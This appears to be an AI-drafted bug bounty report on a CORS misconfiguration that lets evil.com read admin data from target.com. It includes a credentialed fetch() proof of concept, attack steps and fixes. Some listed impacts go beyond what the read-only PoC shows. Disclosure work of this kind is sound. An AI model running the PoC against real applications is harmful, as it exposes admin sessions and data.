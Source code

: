 
---

## 🛡️ Bug Bounty Report: CORS Misconfiguration Leading to Admin Session Hijack

### 📌 Summary

The target application exhibits a critical **CORS misconfiguration** that allows arbitrary origins to interact with sensitive endpoints while sending credentials. Since the application is **admin-only**, this flaw enables attackers to hijack admin sessions and perform privileged actions remotely.

---

### 🧪 Vulnerability Details

- **Endpoint tested**: `https://target.com/v1/db/User`
- **Request Origin**: `https://evil.com`
- **Response Headers**:
  ```http
  Access-Control-Allow-Origin: https://evil.com
  Access-Control-Allow-Credentials: true
  ```

This configuration violates CORS security principles by:

- Reflecting untrusted origins
- Allowing credentialed requests from those origins

---

### ⚠️ Impact

An attacker can:

1. Host a malicious page on `https://evil.com`
2. Trick an authenticated admin into visiting it
3. The page sends a cross-origin `fetch()` request to `https://target.com/v1/db/User` with `credentials: include`
4. The server responds with sensitive data, which is readable by the attacker’s page

Since **only admins have access**, this flaw enables:

- **Admin session hijacking**
- **Unauthorized access to sensitive data**
- **Remote execution of privileged actions**
- **Potential full compromise of the application**

---

### 🧬 Proof-of-Concept (PoC)

```javascript
fetch("https://target.com/v1/db/User", {
  method: "GET",
  credentials: "include"
})
.then(response => response.text())
.then(data => {
  console.log("Leaked admin data:", data);
})
.catch(err => {
  console.error("Request failed:", err);
});
```

This code, when run from `evil.com`, successfully sends a credentialed request and receives a response from the target server.

---

### 🛠️ Recommended Fix

- Do **not** reflect arbitrary `Origin` values
- Maintain a **whitelist of trusted origins**
- Only set `Access-Control-Allow-Credentials: true` when the origin is explicitly trusted
- Consider disabling CORS for sensitive admin-only endpoints

---

Let me know if you'd like to tailor this for a specific platform (like HackerOne, Bugcrowd, etc.) or add screenshots or logs. We can make it even more compelling.